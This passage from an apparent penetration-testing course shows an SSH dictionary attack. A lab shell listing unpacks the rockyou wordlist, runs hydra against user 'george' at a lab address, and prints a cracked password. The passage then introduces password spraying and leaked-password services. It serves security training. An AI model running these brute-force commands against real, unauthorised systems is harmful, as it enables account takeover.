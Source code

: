 The output indicates that SSH is open. Let's assume that through the _information gathering process_ we have already discovered the _george_ user.

It's worth noting that the format of the username also suggests that the company may use the first name of the user for account names. This information may assist us in later information gathering attempts.

Next, let's prepare to use the **rockyou.txt** wordlist file. Since the file is compressed to save space, we must uncompress it with [**gzip -d**](https://www.gnu.org/software/gzip/). Finally, we can run **hydra**.

We'll attack a single username with **\-l george**, specify the port with **\-s**, indicate our password list with **\-P** and define our target with **ssh://192.168.50.201**:

```
kali@kali:~$ cd /usr/share/wordlists/

kali@kali:~$ ls
dirb  dirbuster  fasttrack.txt  fern-wifi  metasploit  nmap.lst  rockyou.txt.gz  wfuzz

kali@kali:~$ sudo gzip -d rockyou.txt.gz

kali@kali:~$ hydra -l george -P /usr/share/wordlists/rockyou.txt -s 2222 ssh://192.168.50.201
...
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://192.168.50.201:22/
[2222][ssh] host: 192.168.50.201   login: george   password: chocolate
1 of 1 target successfully completed, 1 valid password found
...
```

> Listing 2 - Unzipping Gzip Archive and attacking SSH

Good. We successfully used Hydra to discover a valid login for the _george_ user.

The dictionary attack worked because the password was contained in the **rockyou.txt** wordlist and we knew the name of the user we wanted to attack. However, if we didn't have valid usernames, we would use enumeration and information gathering techniques to find them. Alternatively, we could also attack built-in accounts such as _root_ (on Linux) or _Administrator_ (on Windows).

In this next example, we will attempt to use a single password against a variety of usernames in a technique known as [_password spraying_](https://owasp.org/www-community/attacks/Password_Spraying_Attack).

Since there are many different ways to gain access to passwords, this is an extremely viable technique. For example, we may gain access to credentials using one of the techniques discussed later in this Module, or we may find them stored as plaintext in a file or through the use of an online password leak database. These services (such as [_ScatteredSecrets_](https://scatteredsecrets.com/)) track password leaks and compromises and sell the plaintext passwords. This can be very beneficial during a penetration test, but we must make sure we do not violate the terms of these services, we must ensure that we only use the passwords in direct cooperation with the legal owner, and we must review the service carefully to determine if it's operating legally. For example, [_WeLeakInfo_](https://www.justice.gov/usao-dc/pr/weleakinfoto-and-related-domain-names-seized) was recently seized by the FBI and U.S. Department of Justice for alleged illegal activity.
